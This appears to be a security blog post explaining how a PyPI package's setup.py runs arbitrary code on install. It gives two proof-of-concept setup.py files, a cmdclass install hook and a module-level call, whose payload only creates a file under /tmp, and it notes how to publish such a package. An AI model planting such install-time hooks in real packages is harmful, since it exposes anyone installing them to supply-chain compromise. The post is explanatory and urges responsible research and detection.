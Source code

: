 ```yaml
---
title: "Executing Code on Python Package Installs - Malicious Pypi"
date: 2022-09-08T08:39:26-07:00
draft: false
---
```


<br>

# Foreword

Multiple researchers in the community have given dependency confusion and other supply chain attacks a bad name recently. While there are very valid reasons to perform this attack, please do not pollute pypi or any other package manager with typosquatting, stolen code, or other non-targetted attacks in the name of security research. It's no different than spreading malware. The point has been made. Please be responsible.

# Executing code on package install

While most python packages are distributed as wheels, the ["binary" distribution format](https://packaging.python.org/en/latest/specifications/binary-distribution-format/), Pypi also enables developers to distribute their package as [source distributions](https://packaging.python.org/en/latest/specifications/source-distribution-format/) (or sdist). The sdist allows developers to suply the source code as the distribution such that the code is compiled into a wheel by the distutils/setuptools module on the system that installs it by calling the setup.py script that is bundled into the sdist. This will also occur even if the module if the module is downloaded via `pip download`.

As the setup.py script is supplied by the developer, it is easy to hook parts of distutils and supply your own code instead. Most examples use the built-in `cmdclass` parameter on the setup function to hook a specific command given to `setup.py`. Here is an example:

```python
from setuptools import setup
from setuptools.command.install import install

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

class HookedInstallClass(install):
    def run(self):
        install.run(self)
        bad_stuff()

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
    cmdclass={
        'install': HookedInstallClass,
    },
)
```

You can try this out by simply writing it to a setup.py file in a new directory and running `python setup.py install`

Actually bundling and publishing this code is as easy as `python setup.py sdist` and then uploading it via twine. [See the docs here.](https://docs.python.org/3/distutils/setupscript.html) 

# Without hooking

It's also worth noting that although most examples are hooking other functions using cmdclass in the end python is just running the script you supply and you can get as creative with it as you want. You may still want to keep the setup call however if you would like your module to build and install correctly. The following example will execute code every time `setup.py` is executed, including when you use it to generate the sdist.

```python
from setuptools import setup

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
)

bad_stuff()
```

# Why is this allowed?

> These are useful for end users wanting to develop your sources, and for end user systems where some local compilation step is required (such as a C extension).

There are many use cases where you might want to compile your code differently on a different machine, check attributes of the system, compile other languages, etc.

# Other thoughts

Attacks on package managers are increasingly being considered as low-effort high-reward opportunities for attackers in much the same way that Android apps and Chrome extensions have historically been abused to distribute malware. This is already becoming a popular attack, and package managers are a particularly soft target due to lack of their own anti-malware teams and permission models.

While it is difficult to prevent these attacks from occurring, it should be easy to detect this technique due to the requirements of a package being distributed as a `.tar.gz file` and the setup.py entry-point. I hope to see more research in this space.

Thanks to [mschwager](https://github.com/mschwager) for his contributions as well, 0wned is a great example.

# Links

<br>

* https://thehackernews.com/2022/09/warning-pypi-feature-executes-code.html
* https://github.com/mschwager/0wned
